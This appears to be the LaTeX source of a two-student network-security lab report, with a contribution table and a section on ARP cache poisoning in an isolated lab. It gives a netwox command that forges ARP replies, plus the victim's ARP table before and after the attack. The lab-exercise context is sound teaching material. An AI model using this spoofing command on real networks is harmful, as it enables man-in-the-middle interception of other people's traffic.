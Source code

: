 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{center}
  \begin{table}[h]
    \begin{tabular}{ l | p{8.5cm} | c }
      Group member ID & Contribution outline & Contribution \\
      \hline
      ks1591 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item creating report template,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
      mk0934 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item setting up git repository for coursework files,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
    \end{tabular}
    \caption{Statement of contribution.\label{tab:SoC}}
  \end{table}
\end{center}

\section{ARP cache poisoning}
\begin{lstlisting}
# Man in the middle example
#
# VICTIM
# MAC: 08:00:27:A6:EB:87
#   IP: IP: 192.168.0.102

# Some other node
#   MAC: 08:00:27:93:07:7e
# IP: 192.168.0.103

# ATTACKER (Man in the middle)
# MAC: 08:00:27:ee:0d:0f
#   IP: IP: 192.168.101
sudo netwox 33 -b 08:00:27:A6:EB:87 -g 192.168.0.103 -h 08:00:27:A6:EB:86 -i 192.168.0.101


# Before attack
seed@victim: arp-a
(192.168.0.103) at 08:00:27:93:07:7e

# After attack
seed@victim: arp-a
(192.168.0.103) at 08:00:27:ee:0d:0f
\end{lstlisting}
\end{document}

